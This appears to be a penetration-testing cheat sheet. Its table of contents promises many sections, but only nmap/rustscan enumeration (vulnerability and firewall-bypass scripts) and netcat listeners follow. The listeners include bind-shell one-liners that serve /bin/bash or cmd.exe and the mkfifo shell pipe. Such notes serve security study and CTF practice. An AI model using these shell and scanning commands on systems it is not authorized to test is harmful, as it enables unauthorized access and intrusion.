# Methodologies

## Summary
- [Enumerating services](#enumerating-services)
- [Netcat](#netcat)
  - [Setting up a listener](#setting-up-a-listener)
  - [Connecting to listening services](#connecting-to-listening-services)
  - [Send & receive files](#send--receive-files)
- [SecureCopy](#securecopy)
  - [Transfer remote files to local machine](#transfer-remote-files-to-local-machine)
  - [Transfer local files to remote machine](#transfer-local-files-to-remote-machine)
- [Socat](#socat)
  - [Setting up a stabilised listener](#setting-up-a-stabilised-listener)
  - [Connect to stabilised listener](#connect-to-stabilised-listener)
  - [Set up a standard listener](#set-up-a-standard-listener)
  - [Connect to a standard listener](#set-up-a-standard-listener)
  - [Set up encrypted reverse shell](#set-up-encrypted-reverse-shell)
  - [Set up encrypted bind shell](#set-up-encrypted-bind-shell)
- [TCPdump](#tcpdump)
  - [Useful options](#useful-options)
- [Docker](#docker)
  - [Useful options](#useful-options)
  - [Docker commands on local machine after port forwarding](#docker-commands-on-local-machine-after-port-forwarding)
  - [Escalate privilege to root](#escalate-privilege-to-root)
- [Utilising BorgBackup](#utilising-borgbackup)
  - [List all archives in the repo](#list-all-archives-in-the-repo)
  - [List the contents of archive](#list-the-contents-of-archive)
  - [Extract archive into local machine](#extract-archive-into-local-machine)

## Enumerating services
```
nmap -p- -A --min-rate 10000 -oN [save file] 10.0.0.1
rustscan -u 5000 -a 'machine-ip' -- -sC -sV
rustscan -u 5000 -b 2250 -t 2000 -a 'ip' -- -A -oN scan.txt
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.0.0.1
nmap --script firewall-bypass <target>
nmap --script firewall-bypass --script-args firewall-bypass.helper="ftp",firewall-bypass.targetport=21 <target>
nmap -n -sV --script="ldap* and not brute" -p 389 127.0.0.1 
nmap 10.0.0.1 -p139,445 --script=smb-vuln*
nmap --script=vuln -p 80 10.0.0.1
```

## Netcat
### Setting up a listener
```
nc -lvnp 4444
nc -e /bin/bash -lvnp 4444 --ssl
nc -e cmd.exe -lvnp 4444 --ssl
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -lvnp 4444 > /tmp/f
```
